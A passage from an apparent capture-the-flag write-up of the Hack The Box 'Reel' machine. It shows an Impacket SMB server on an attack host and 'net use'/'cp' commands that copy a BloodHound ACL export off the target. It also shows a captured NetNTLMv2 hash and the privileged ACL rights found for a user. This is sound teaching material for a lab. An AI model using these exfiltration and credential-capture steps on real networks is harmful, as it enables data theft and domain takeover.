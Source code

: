 We can transfer the `acls.csv` file by first launching an SMB server from our attack host.

<pre class="language-bash"><code class="lang-bash"><strong>$ smbserver -smb2support share ./
</strong>Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
</code></pre>

Next, from the target, we can connect to the share and copy the file.

```bash
# connect to the share
PS C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors> net use z: \\10.10.14.25\share
The command completed successfully.
# copy the file
PS C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors> cp acls.csv z:\acls.csv
```

Back on our attack host:

{% code overflow="wrap" %}
```bash
$ smbserver -smb2support share ./
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.77,54343)
[*] AUTHENTICATE_MESSAGE (HTB\tom,REEL)
[*] User REEL\tom authenticated successfully
[*] tom::HTB:aaaaaaaaaaaaaaaa:2a9a6f191f800cfa819552788efb61f0:01010000000000000017ea47817cda0152743fcea038cc9e00000000010010006c005600470045005000490079007000030010006c0056004700450050004900790070000200100067006c007400440045004900740046000400100067006c00740044004500490074004600070008000017ea47817cda0106000400020000000800300030000000000000000000000000300000c7f1ec40a782226df4aac02eb4a76fe72e37ea3152fddcd0fed40094074e14fd0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0032003500000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
[*] Disconnecting Share(1:IPC$)
```
{% endcode %}

Since we only have credentials for the account `tom`, we should search information about it:

{% code overflow="wrap" %}
```bash
$ cat acls.csv | grep tom
"tom@HTB.LOCAL","USER","","Domain Admins@HTB.LOCAL","GROUP","WriteDacl WriteOwner","","AccessAllowed","False"
"tom@HTB.LOCAL","USER","","Enterprise Admins@HTB.LOCAL","GROUP","WriteDacl WriteOwner","","AccessAllowed","False"
"tom@HTB.LOCAL","USER","","Administrators@HTB.LOCAL","GROUP","WriteDacl WriteOwner","","AccessAllowed","False"
"tom@HTB.LOCAL","USER","","Local System@HTB.LOCAL","USER","GenericAll","","AccessAllowed","False"
"tom@HTB.LOCAL","USER","","Domain Admins@HTB.LOCAL","GROUP","Owner","","AccessAllowed","False"
"claire@HTB.LOCAL","USER","","tom@HTB.LOCAL","USER","WriteOwner","","AccessAllowed","False"
```
{% endcode %}


[^1]: Living Off The Land
[^2]: Elevation of Privileges
[^3]: Elevation of Privileges
[^4]: Living Off The Land
[^5]: Elevation of Privileges
[^6]: Living Off The Land